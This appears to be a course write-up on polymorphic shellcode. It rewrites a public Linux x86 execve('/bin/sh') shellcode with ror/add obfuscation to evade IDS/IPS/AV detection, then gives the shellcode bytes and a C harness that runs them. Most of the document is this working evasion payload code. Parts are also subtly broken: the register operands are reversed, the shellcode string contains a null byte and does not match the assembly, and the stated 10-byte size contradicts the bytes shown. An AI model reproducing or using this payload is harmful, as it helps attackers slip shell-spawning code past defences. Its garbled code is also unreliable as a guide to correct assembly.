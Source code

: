 # Assignment-VI - Polymorphic Shellcode

Introduction
Polymorphism is the ability of an object to take on many forms. For pushing the value 0x6e69622f(nib/) into the stack will alert the IPS/AV. Instead we can go around the clock and push the dword 0x6e69622e and add a corresponding 0x00000001 so that it will be hard for the IDS/IPS/AV to detect the code for any possible execves.


### Challenge 1 : Analyzing Linux x86 execve("/bin/sh") - 28 bytes
http://shell-storm.org/shellcode/files/shellcode-811.php

This is an execve("/bin/sh") of 28 byte. Let's check the assembly code.

```
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
 ```
 
 So the modified code looks as follows :

 ```
global _start

section .text

_start:

xor    eax, eax      ; zero our eax
push   eax

; push   0x68732f2f

mov eax, 0xd0e65e5e
ror eax, 1                       ; shift the register by 1 ro right
push eax

; push   0x6e69622f
add eax, 0x5f63300               ; add 5f63300 to eax register to push 6e69622f                                       
push eax

mov    esp,ebx
mov    eax,ecx
mov    eax,edx
mov    al,0xb
int    0x80

; End section for exit call
xor    eax,eax
inc    eax
int    0x80
 ```
 
 Here I have done two few changes to the code : 
 
 1) The eax register for both 0x68732f2f is first brought to it's original form by first ROR the register by left.
 2) For this research, I have used bit shift calculator and shifted the accumulator by 1.
 3) Use the same method, I have added ror by 1 to shift the register back to it's original form to perform execve.
 4) Next, I have added 5f63300 to the accumulated eax to achieve 6e69622f instead of directly pushing it to the register.
 
 Compile the code using the "./compile.sh execve-modified".
 
 Use the following objdump to retrieve the shellcode of the nasm file.
  ```
 objdump -d ./execve-modified|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
  ```
  
shellcode : "\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

Now copy the obtained shellcode and provide it in the shellcode.c 
 ```
 #include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
  ```

Compiling the shellcode using -z execstack ( gcc -fno-stack-protector -z execstack ) and running the shellcode file,
the size is : 10 bytes
